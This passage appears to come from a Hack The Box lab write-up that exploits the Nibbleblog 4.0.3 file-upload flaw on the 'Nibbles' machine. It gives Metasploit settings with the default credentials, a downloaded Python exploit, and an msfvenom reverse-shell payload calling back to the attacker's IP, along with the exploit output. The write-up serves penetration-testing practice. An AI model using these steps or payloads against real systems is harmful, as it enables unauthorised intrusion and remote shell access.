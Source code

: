 	| Exploit Title                                         | Path |
	| ----------------------------------------------------- | ---- |
	| Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit) | php/remote/38489.rb     |
7. Launch `msfconsole`
8. Set `OPTIONS`
	1. Set `PASSWORD`
		```
		msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
		```
	2. Set `USERNAME`
		```
		msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
		```
	3. Set `RHOSTS`
		```
		msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
		```
	4. Set `TARGETURI`
		```
		msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog
		```
	5. Set `LHOST`
		```
		msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST tun0	
		```
9. Exploit!
	![]({{ page.img_path }}Pasted%20image%2020220822192316.png)


## Nibbleblog 4.0.3 Arbitrary File Upload w/o Metasploit
1. Found [python exploit](https://raw.githubusercontent.com/TheRealHetfield/exploits/master/nibbleBlog_fileUpload.py)
	```
	┌──(root💀kali)-[~/htb/nibbles/10.10.10.75/exploit]
	└─# curl -s https://raw.githubusercontent.com/TheRealHetfield/exploits/master/nibbleBlog_fileUpload.py > exploit.py
	```
2. Create `PHP Payload` w/ `msfvenom`
	```
	┌──(root💀kali)-[~/htb/nibbles/10.10.10.75/exploit]
	└─# msfvenom -p php/reverse_perl --format raw -o nibble.txt LHOST=10.10.14.2 LPORT=4444
	```
3. Change options in `exploit.py`
	```
	nibbleUsername = "admin"
	nibblePassword = "nibbles"
	
	nibbleURL = "http://nibbles.htb/nibbleblog/"
	```
4. Start listener
5. Exploit!
	```
	┌──(root💀kali)-[~/htb/nibbles/10.10.10.75/exploit]
	└─# python exploit.py 
	[-] LOGIN RESPONSE: 200 OK
	[+] Login Successful.
	[-] Upload likely successful.
	[-] UPLOAD RESPONSE: 200 OK
	[+] Exploit launched, check for shell.
	[-] EXPLOIT RESPONSE: 200 OK
	```
	![]({{ page.img_path }}Pasted%20image%2020220822193502.png)